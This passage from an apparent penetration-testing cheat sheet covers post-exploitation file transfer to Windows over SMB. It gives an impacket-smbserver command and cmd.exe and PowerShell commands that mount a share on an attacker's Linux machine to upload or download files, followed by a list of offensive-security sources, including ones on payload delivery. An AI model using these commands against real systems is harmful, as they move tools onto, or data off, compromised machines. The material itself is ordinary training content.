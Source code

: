 
-------------------------------

## smb

- **Server** setup
	- `impacket-smbserver <share_name> <directory_to_serve> -smb2support -user <username> -password <password>`
- **Client** commands in `cmd.exe`  to mount a folder (**download/upload** any file)
	- `net use X: \\<ip_address>\<share_name>`
	- `cd <share_name>:`
	- to unmount `net use X: /delete`
- **Client** commands in `powershell.exe` 
	```
	$pass = convertto-securestring '<password>' -AsPlainText -Force
	$cred = New-Object System.Management.Automation.PSCredential('<username>','$pass')
	New-PSDrive -Name ippsec -PSProvider FileSystem -Credential $cred -Root \\<ip_address_of_your_linux_machine_with_impacket>\<share_name>
	```\
	- `cd <share_name>:`


-------------------------------

# Sources

- https://blog.ropnop.com/transferring-files-from-kali-to-windows/
- https://isroot.nl/2018/07/09/post-exploitation-file-transfers-on-windows-the-manual-way/
- https://github.com/kmkz/Pentesting/blob/master/Payload-Delivery-Cheat-Sheet
- https://ired.team/offensive-security-experiments/offensive-security-cheetsheets
- http://www.lifeoverpentest.com/2018/02/file-transfer-cheat-sheet-for.html
- http://insidetrust.blogspot.com/2010/11/ftp-transfers-from-within-non.html
- https://hackingandsecurity.blogspot.com/2017/09/oscp-windows-priviledge-escalation.html
- https://blog.netspi.com/15-ways-to-download-a-file/
- https://www.asafety.fr/en/vuln-exploit-poc/windows-dos-powershell-upload-de-fichier-en-ligne-de-commande-one-liner/
- https://blog.ropnop.com/transferring-files-from-kali-to-windows
- https://www.hackingarticles.in/compressive-guide-on-file-transfer-post-exploitation/
- https://arno0x0x.wordpress.com/2017/11/20/windows-oneliners-to-download-remote-payload-and-execute-arbitrary-code/

